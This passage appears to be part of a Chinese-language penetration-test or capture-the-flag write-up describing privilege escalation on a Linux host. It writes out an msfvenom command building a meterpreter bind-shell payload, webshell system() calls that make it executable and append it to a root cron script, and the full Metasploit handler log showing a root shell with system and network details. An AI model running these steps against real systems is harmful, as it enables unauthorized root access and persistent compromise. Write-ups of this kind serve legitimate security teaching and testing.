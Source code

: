 首先，生成一个Linux的meterpreter payload并通过webshell上传到目标主机上并添加执行权限；
```
root@kali:~# msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=4444 -f elf > root.elf
system('chmod +x /opt/lampp/htdocs/root.elf');
```
接着，修改`/etc/cron.hourly/clean_up_access_log`使其可以执行我们上传的payload并等待cronjob的下次执行；
```
system("echo '/opt/lampp/htdocs/root.elf' >> /etc/cron.hourly/clean_up_access_log");
```
最后，我们成功地在目标机器(10.0.1.11)上获得了一个root权限的meterpreter session，如下：
```
msf exploit(handler) > use exploit/multi/handler
msf exploit(handler) > set payload linux/x64/meterpreter/bind_tcp
payload => linux/x64/meterpreter/bind_tcp
msf exploit(handler) > set RHOST 10.0.1.11
RHOST => 10.0.1.11
msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter/bind_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST  10.0.1.11        no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(handler) > run

[*] Started bind handler
[*] Sending stage (802416 bytes) to 10.0.1.11
[*] Meterpreter session 4 opened (10.0.0.5-10.0.0.9:0 -> 10.0.1.11:4444) at 2018-05-30 15:23:26 +0000

meterpreter > sysinfo
Computer     : 10.0.1.11
OS           : Ubuntu 16.04 (Linux 4.4.0-1060-aws)
Architecture : x64
Meterpreter  : x64/linux
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > shell
Process 24394 created.
Channel 2 created.
id
uid=0(root) gid=0(root) groups=0(root)
ifconfig
eth0      Link encap:Ethernet  HWaddr 0a:3a:ea:dc:8a:44  
          inet addr:10.0.1.11  Bcast:10.0.1.255  Mask:255.255.255.0
          inet6 addr: fe80::83a:eaff:fedc:8a44/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:9001  Metric:1
          RX packets:2703 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2973 errors:0 dropped:0 overruns:0 carrier:0
```